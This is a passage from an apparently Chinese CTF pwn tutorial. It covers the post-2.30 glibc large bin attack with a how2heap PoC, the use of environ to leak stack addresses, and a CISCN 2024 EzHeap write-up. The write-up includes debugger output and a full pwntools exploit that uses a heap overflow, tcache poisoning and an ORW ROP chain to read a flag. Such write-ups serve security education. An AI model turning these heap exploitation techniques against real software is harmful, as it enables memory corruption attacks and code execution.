       if (__glibc_unlikely (fwd->bk_nextsize->fd_nextsize != fwd)) //以上面的p2为例的话，那就是检测stack_var2-0x20的fd_nextsize是否指向p2。是的话就报错
              malloc_printerr ("malloc(): largebin double linked list corrupted (nextsize)");
       fwd->bk_nextsize = victim;
       victim->bk_nextsize->fd_nextsize = victim;
}
bck = fwd->bk;
if (bck->fd != fwd)// 同理，如果stack_var1-0x10的fd是否指向p2，是就报错
       malloc_printerr ("malloc(): largebin double linked list corrupted (bk)");
```

因为这个检测，我们在glibc-2.23的攻击方式算是彻底失效了，得另寻他路

还是通过how2heap的例子来看

#### 新源码利用

```c
assert (chunk_main_arena (bck->bk));//断言bck->bk属于main_arena
if ((unsigned long) (size) < (unsigned long) chunksize_nomask (bck->bk))
{
       fwd = bck; //这里的fwd可以粗略的认为是large_bin归属的main_arena
       bck = bck->bk; //bck成了main_arena的bk指针指向的堆块
       victim->fd_nextsize = fwd->fd; //我们申请的小堆块的fd_nextsize指向了main_arena的fd指针，也就是所在的large_bin的最大的堆块
       victim->bk_nextsize = fwd->fd->bk_nextsize;//攻击点，没有检测，所以我们可以伪造大堆块的bk_nextsize
       fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim; //先进行右值运算，如果在没有进行修改的情况下，等式可以化简为fwd->fd->bk_nextsize = victim，也就是最大堆块的bk_nextsize指向我们的最小堆块victim
}
```

这段代码与unsorted_bins、large_bins有关，这是从unsorted_bins里提取出来的堆块((unsigned long) (size))与large_bins里的最小堆块((unsigned long) chunksize_nomask (bck->bk))进行比较,如果unsorted出来的堆块更小，就执行如上操作。

注意，这里并没有进行检测操作！，意味着我们可以对bk_nextsize进行修改，再次实现任意地址写

#### 示例代码

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

/*

glibc 2.30 之后 large bin attack 的一次回顾

Relevant code snippet :

    if ((unsigned long) (size) < (unsigned long) chunksize_nomask (bck->bk)){
        fwd = bck;
        bck = bck->bk;
        victim->fd_nextsize = fwd->fd;
        victim->bk_nextsize = fwd->fd->bk_nextsize;
        fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
    }

*/

int main() {
    /* Disable IO buffering to prevent stream from interfering with heap */
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    printf("\n\n");
    printf("自 glibc 2.30 起，large bin chunk 插入时新增了两个检查\n\n");
    printf("检查 1：\n");
    printf(">    if (__glibc_unlikely (fwd->bk_nextsize->fd_nextsize != fwd))\n");
    printf(">        malloc_printerr (\"malloc(): largebin double linked list corrupted (nextsize)\");\n");
    printf("检查 2：\n");
    printf(">    if (bck->fd != fwd)\n");
    printf(">        malloc_printerr (\"malloc(): largebin double linked list corrupted (bk)\");\n\n");
    printf("这两个检查会阻止传统的 large bin attack。\n");
    printf("不过，仍然还存在一条可行路径可以触发 large bin attack，下面给出这个 PoC：\n\n");

    printf("====================================================================\n\n");

    size_t target = 0;
    printf("这里是我们想要覆写的目标变量（%p）：%lu\n\n", &target, target);

    size_t *p1 = malloc(0x428);
    printf("首先，申请一个 large chunk [p1]（%p）\n", p1 - 2);
    size_t *g1 = malloc(0x18);
    printf("再申请一个保护块，防止发生合并\n");

    printf("\n");

    size_t *p2 = malloc(0x418);
    printf("然后再申请第二个 large chunk [p2]（%p）\n", p2 - 2);
    printf("这个 chunk 要比 [p1] 小，并且和 [p1] 落在同一个 large bin 范围内\n");
    size_t *g2 = malloc(0x18);
    printf("再次申请一个保护块，防止发生合并\n");

    printf("\n");

    free(p1);
    printf("释放两个 chunk 中较大的那个 --> [p1]（%p）\n", p1 - 2);
    size_t *g3 = malloc(0x438);
    printf("申请一个比 [p1] 更大的 chunk，从而把 [p1] 插入到 large bin 中\n");

    printf("\n");

    free(p2);
    printf("释放两个 chunk 中较小的那个 --> [p2]（%p）\n", p2 - 2);
    printf("此时，large bin 中有一个 chunk：[p1]（%p）\n", p1 - 2);
    printf("而 unsorted bin 中有一个 chunk：[p2]（%p）\n", p2 - 2);

    printf("\n");

    p1[3] = (size_t)((&target) - 4);    // 修改 bk_nextsize
    printf("现在将 p1->bk_nextsize 修改为 [target - 0x20]（%p）\n", (&target) - 4);

    printf("\n");

    size_t *g4 = malloc(0x438);
    printf("最后，再申请一个比 [p2] 更大的 chunk，使 [p2]（%p）进入 large bin\n", p2 - 2);
    printf("由于 glibc 在“新插入 chunk 比当前最小 chunk 更小时”\n");
    printf("不会检查该 chunk->bk_nextsize，\n");
    printf("所以被修改过的 p1->bk_nextsize 不会触发报错\n");
    printf("当 [p2]（%p）被插入 large bin 时，\n", p2 - 2);
    printf("[p1]（%p）->bk_nextsize->fd_nextsize 会被改写为 [p2] 的地址（%p）\n", p1 - 2, p2 - 2);

    printf("\n");

    printf("在这个例子里，target 现在已经被覆写成 [p2] 的地址（%p）\n", p2 - 2);
    printf("当前 [target] 的值为：%p\n", (void *)target);
    printf("Target 变量地址（%p） : %p\n", &target, (size_t *)target);

    printf("\n");
    printf("====================================================================\n\n");

    assert((size_t)(p2 - 2) == target);

    return 0;
}
```

简单来说，就是申请两个chunk，将大的那个放入largebin后，修改大chunk的bk_nextsize为target-0x20，之后再把小的放入largebin中，target中就会被覆写为小的那个chunk的地址。

## environ

先来介绍一下environ，在Linux C中，environ是一个全局变量，它储存着系统的环境变量。它储存在libc中，因此environ是沟通libc地址与栈地址的桥梁。

如图：即为一个程序中environ的具体信息：



通过libc找到environ地址后，泄露environ地址处的值，可以得到环境变量地址，环境变量保存在栈中，通过偏移可以得到栈上任意变量的地址。

### 例题：CISCN_2024_Ezheap

开了沙箱，libc版本为2.35，所以没法用各类hook

经典菜单题，大概函数功能分别如下
alloc:最多80个，大小不超过0x500，bss上有个数组用来存chunk指针，地址是0x42E0
free:  free但制空了是存chunk指针的数组，而不是那个指针，所以指针还是可以使用

```c
    exit(0);
  }
  free(*((void **)&unk_4060 + v1));
  *((_QWORD *)&unk_4060 + v1) = 0LL;
  return v2 - __readfsqword(0x28u);
```

edit，最多可写0x500，但是可以创小的写大的
show，正常打印，用的print，遇到\x00阶段

由于使用seccomp弄的沙箱，所以bin中已经有很多chunk了

```bash
pwndbg> bins
tcachebins
0x20 [  7]: 0x7ffff8000fd0 —▸ 0x7ffff8001280 —▸ 0x7ffff8000750 —▸ 0x7ffff8000e30 —▸ 0x7ffff8000c90 —▸ 0x7ffff8000af0 —▸ 0x7ffff80006c0 ◂— 0
0x30 [  2]: 0x7ffff7fff300 —▸ 0x7ffff7fff460 ◂— 0
0x40 [  6]: 0x7ffff7fff670 —▸ 0x7ffff7fffe00 —▸ 0x7ffff8000460 —▸ 0x7ffff8000130 —▸ 0x7ffff7fffad0 —▸ 0x7ffff7fff7a0 ◂— 0
0x60 [  1]: 0x7ffff7fff2a0 ◂— 0
0x70 [  7]: 0x7ffff8000990 —▸ 0x7ffff8000b30 —▸ 0x7ffff8000cd0 —▸ 0x7ffff8000e70 —▸ 0x7ffff8001010 —▸ 0x7ffff8001190 —▸ 0x7ffff80006e0 ◂— 0
0x80 [  7]: 0x7ffff80008f0 —▸ 0x7ffff8000a70 —▸ 0x7ffff8000c10 —▸ 0x7ffff8000db0 —▸ 0x7ffff8000f50 —▸ 0x7ffff8001200 —▸ 0x7ffff8000640 ◂— 0
0xd0 [  5]: 0x7ffff8000170 —▸ 0x7ffff7fffe40 —▸ 0x7ffff7fffb10 —▸ 0x7ffff7fff7e0 —▸ 0x7ffff7fff350 ◂— 0
0xf0 [  7]: 0x7ffff8000240 —▸ 0x7ffff7ffff10 —▸ 0x7ffff7fffbe0 —▸ 0x7ffff7fff8b0 —▸ 0x7ffff7fff580 —▸ 0x7ffff8001080 —▸ 0x7ffff8000370 ◂— 0
fastbins
0x20: 0x7ffff7fff320 —▸ 0x7ffff7fff410 —▸ 0x7ffff7fff430 —▸ 0x7ffff8000490 —▸ 0x7ffff80005a0 —▸ 0x7ffff80008c0 —▸ 0x7ffff8000960 —▸ 0x7ffff8000b00 ◂— ...
0x40: 0x7ffff7fffcc0 —▸ 0x7ffff8000320 —▸ 0x7ffff7fffff0 ◂— 0
0x70: 0x7ffff8001290 —▸ 0x7ffff80004b0 —▸ 0x7ffff80005c0 —▸ 0x7ffff80007d0 —▸ 0x7ffff8000ed0 —▸ 0x7ffff8000d30 —▸ 0x7ffff8000b90 —▸ 0x7ffff80009f0 ◂— ...
0x80: 0x7ffff8000520 —▸ 0x7ffff8000840 ◂— 0
unsortedbin
all: 0x7ffff8000030 —▸ 0x7ffff7fffd00 —▸ 0x7ffff7fff9d0 —▸ 0x7ffff7fff6a0 —▸ 0x7ffff7fff480 —▸ 0x7ffff7e1ace0 ◂— 0x7ffff8000030 /* '0' */
smallbins
empty
largebins
empty
```

这里的思路非常巧妙，因为printf是遇到\x00才停止，所以先申请4个大堆块和那些堆内存区分开来。然后利用edit函数里的堆溢出，修改chunk1的size位使其大小为0x821（两个0x408加两个chunk头），导致chunk1的data位覆盖了chunk2，这样free掉chunk1后连带着chunk2一块被free掉。此时chunk1和2都进入了unsortedbin，再次malloc时，malloc在tcache中没找到能利用的chunk，然后去unsorted找，但是unsorted中只有一个chunk而且size不对，所以unsortedbin中的chunk被放入largebin，malloc再去largebin中找，结果就是找到了chunk1，并且因为chunk1是0x820，但是我们只需要0x410，所以会被切分，前半部分就是刚刚的chunk1被分配回来，后半部分就是chunk2，被放入unsortedbin中。

之后泄露heap地址，由于现在chunk2我们有一个指针是指向它的，此时再次申请一个chunk（chunk4）而且chunk2在largebin中，所以chunk4和chunk2就指向同一个位置，show(2)就能得到heap基址

之后泄露栈地址，前面提到，environ里存的地址是在栈上的

```bash
pwndbg> p &environ
$1 = (<data variable, no debug info> *) 0x7f1e54c22200 <environ>
pwndbg> tele 0x7f1e54c22200
00:0000│     0x7f1e54c22200 (environ) —▸ 0x7ffe0d0ae420 —▸ 0x7ffe0d0aef92 ◂— 'LD_PRELOAD=/root/Pwn/CISCN_2024_Easyheap/libc.so.6'
01:0008│     0x7f1e54c22208 ◂— 0
02:0010│     0x7f1e54c22210 ◂— 0
03:0018│     0x7f1e54c22218 (__curbrk) ◂— 0x55556b361000
04:0020│     0x7f1e54c22220 ◂— 0
... ↓     3 skipped
```

所以要想办法把environ读出来，就可以用前面的方法，在environ-0x410的地方创建一个假的chunk，然后通过填满那个chunk，利用printf把environ读出来。

这里是创建两个堆块（5和6），将6free，之后利用5的edit溢出，修改6的fd为environ-0x410，之后申请两次就能得到我们想要的fake chunk，然后show fake chunk就行

得到environ后，因为要控制程序流，所以得寻找environ和栈中返回地址的差值，这里选择把orw链写到add函数的栈地址上，这样add ret的时候就会执行orw，所以我们要找add 函数的返回地址

将断点打在add函数leave前，调试，查看rsp内容

```bash
pwndbg> tele rsp
00:0000│ rsp 0x7ffe0d0ae2a0 ◂— 0x700000408
01:0008│-008 0x7ffe0d0ae2a8 ◂— 0x9a91f038d423e500
02:0010│ rbp 0x7ffe0d0ae2b0 —▸ 0x7ffe0d0ae300 ◂— 1
03:0018│+008 0x7ffe0d0ae2b8 —▸ 0x7f1e54d6eaa5 ◂— jmp 0x7f1e54d6eab6
04:0020│+010 0x7ffe0d0ae2c0 ◂— 0
05:0028│+018 0x7ffe0d0ae2c8 ◂— 0x100000000
06:0030│+020 0x7ffe0d0ae2d0 —▸ 0x7f1e54d6e54a ◂— endbr64
07:0038│+028 0x7ffe0d0ae2d8 —▸ 0x7f1e54d6e6ce ◂— endbr64
```

rbp 上面就是返回地址，所以差值就是0x168

之后就是构造ORW链，和刚刚的思路一样，free一个chunk，通过修改前一个chunk使得其fd变化，从而写入栈上

值得注意的是，因为这里写的是add的位置，所以在最后一次add完后就会立刻执行orw链，同时，payload中有orw+=p64(rdx_rbx)+p64(0x30)*2这样的内容，是因为这题没有单独的opo rdx，只有0x00000000000904a9 : pop rdx ; pop rbx ; ret，所以要写两次

完整payload如下

```python
from pwn import *
p=remote('pwn.challenge.ctf.show',28106)
#p = process('./EzHeap')
elf = ELF('./EzHeap')
libc = ELF('./libc.so.6')
context(os='linux',arch='amd64',log_level='debug')
def debug():
    gdb.attach(p)
    pause()
def dbg():
    gdb.attach(p, 'b *$rebase(0x16cc)')

add_idx = 1
delete_idx = 2
show_idx = 4
edit_idx = 3

def choice(cho):
    p.sendlineafter('choice >> ',cho)

def add(size,content):
    choice(str(1))
    p.sendlineafter(b'size:',str(size))
    p.sendafter(b'content:',content)

def delet(idx):
    choice(str(2))
    p.sendlineafter(b'idx:\n',str(idx))

def show(idx):
    choice(str(4))
    p.sendlineafter(b'idx:',str(idx))

def edit(idx,size,content):
    choice(str(3))
    p.sendlineafter(b'idx:',str(idx))
    p.sendlineafter(b'size:',str(size))
    p.sendafter(b'content:',content)

def exit():
    p.sendlineafter(b'choice >> ',b'5')


add(0x408,b'aaaa')#0
add(0x408,b'aaaa')#1
add(0x408,b'aaaa')#2
add(0x408,b'aaaa')#3

edit(0,0x500,b'a'*0x408+p64(0x821))
delet(1)
'''
show(1)
libc1 = u64(p.recv(6).ljust(8,b'\x00'))-0x21ace0
success("libc1_base:"+hex(libc1))
'''
add(0x408,b'a')#1
show(2)
p.recvuntil(b'content:')
libc_base = u64(p.recv(6).ljust(8,b'\x00')) - 0x21ace0
success("libc_base:"+hex(libc_base))
#dbg()
add(0x408,b'aaaa')#4 & 2
add(0x408,b'aaaa')#5
add(0x408,b'aaaa')#6
delet(4)
show(2)
#delet(5)

p.recvuntil(b'content:')
heap_base = u64(p.recv(5).ljust(8,b'\x00'))<<12
success("heap_base:"+hex(heap_base))

rdi = libc_base + 0x2a3e5
rsi = libc_base + 0x2be51
rdx_rbx = libc_base + 0x904a9
rax = libc_base + 0x45eb0
syscall_ret = libc_base + 0x91316
environ = libc_base + libc.symbols['environ']

#chunk6_fd_cy
heap = (heap_base + 0x16e0)>>12  
tar = environ - 0x410
fd = heap^tar
success("tar:"+hex(tar))

delet(6)
pay = b'a'*0x400 + p64(0) + p64(0x411) + p64(fd)
edit(5,0x500,pay)


add(0x408,b'aaaa')#4 
add(0x408,b'aaaa')#6  tar_addr
edit(6,0x500,b'a'*0x410)
show(6)
leak = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
ret_addr = leak - 0x170
target   = ret_addr - 0x8

success("leak     :" + hex(leak))
success("ret_addr :" + hex(ret_addr))
success("target   :" + hex(target))

# --------------------------------------------------
# ORW chain layout
# target == malloc 返回的地址 == ret_addr - 0x8
# 所以 payload 第一个 qword 先占住 ret_addr-0x8
# saved RIP 会落在第二个 qword，也就是第一条 gadget
# --------------------------------------------------

path_addr = target + 0xe0
buf_addr  = target + 0x108


orw  = p64(0) # 加了个0栈对齐 这里不加反而不行

# open("/ctfshow_flag", 0)
orw += p64(rax) + p64(2)
orw += p64(rdi) + p64(path_addr)
orw += p64(rsi) + p64(0)
orw += p64(syscall_ret)

# read(3, buf_addr, 0x100)
orw += p64(rax) + p64(0)
orw += p64(rdi) + p64(3)
orw += p64(rsi) + p64(buf_addr)
orw += p64(rdx_rbx) + p64(0x100) + p64(0)
orw += p64(syscall_ret)

# write(1, buf_addr, 0x100)
orw += p64(rax) + p64(1)
orw += p64(rdi) + p64(1)
orw += p64(rsi) + p64(buf_addr)
orw += p64(rdx_rbx) + p64(0x100) + p64(0)
orw += p64(syscall_ret)

# 文件名放在 ROP 链尾部
orw += b'/ctfshow_flag\x00'

# --------------------------------------------------
# second stage: tcache poison to stack
# --------------------------------------------------

add(0x408, b'aaaa')  # 7
add(0x408, b'aaaa')  # 8
add(0x408, b'aaaa')  # 9
add(0x408, b'aaaa')  # 10

delet(9)
delet(8)

# 这里沿用你当前 0x408 这条链的 key 计算方式
heap = (heap_base + 0x1f00) >> 12
fd   = heap ^ target

success("heap key :" + hex(heap))
success("fd       :" + hex(fd))

pay = b'a' * 0x400 + p64(0) + p64(0x411) + p64(fd)
edit(7, 0x500, pay)

# 第一次 add 拿回原 tcache chunk
add(0x408, b'aaaaaaaa')   # 8

# 第二次 add 命中 target，把 ORW 写到栈上
add(0x408, orw)           # 9

data = p.recvall(timeout=2)
print(data.decode(errors='ignore'))
```
